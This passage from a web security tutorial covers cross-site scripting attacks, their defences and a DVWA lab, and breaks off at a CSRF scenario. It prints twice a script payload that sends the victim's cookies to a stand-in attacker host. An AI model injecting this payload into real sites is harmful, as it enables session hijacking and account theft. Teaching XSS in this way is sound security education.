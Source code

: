 3. **Steal Session Cookies**:
   - The attacker can steal session cookies using a script like:
     ```html
     <script>document.location='http://attacker.com/steal?cookie=' + document.cookie;</script>
     ```

4. **Escalate Privileges**:
   - Once the session cookie is captured, the attacker can hijack the user’s session and gain access to their account.

---

### Defensive Perspective (How to Prevent XSS)

1. **Sanitize and Escape User Input**:
   - Ensure all user inputs are sanitized and properly escaped.

2. **Content Security Policy (CSP)**:
   - Implement a **Content Security Policy (CSP)** to limit the execution of scripts from untrusted sources.

3. **Use HTTP-Only Cookies**:
   - Use **HTTPOnly** cookies to prevent JavaScript from accessing session cookies.

4. **Input Validation**:
   - Validate all user inputs, restricting the allowed characters.

---

### Hands-On Example: XSS

1. **Set Up a Vulnerable Web Application**:
   - Use **DVWA** or **XSS Labs** to test for XSS vulnerabilities.

2. **Test for XSS**:
   - Inject the following script into a comment form:  
     ```html
     <script>alert('XSS');</script>
     ```

3. **Exploit XSS with Cookie Theft**:
   - Inject the following script to steal cookies:  
     ```html
     <script>document.location='http://attacker.com/steal?cookie=' + document.cookie;</script>
     ```

4. **Mitigation**:
   - Sanitize inputs and implement **CSP**.

---

## 3. Cross-Site Request Forgery (CSRF)

### Practical Scenario:
An attacker sends a malicious link to a logged-in user of a banking website. Clicking the link sends a request to transfer funds to the attacker’s account without the user’s knowledge.

---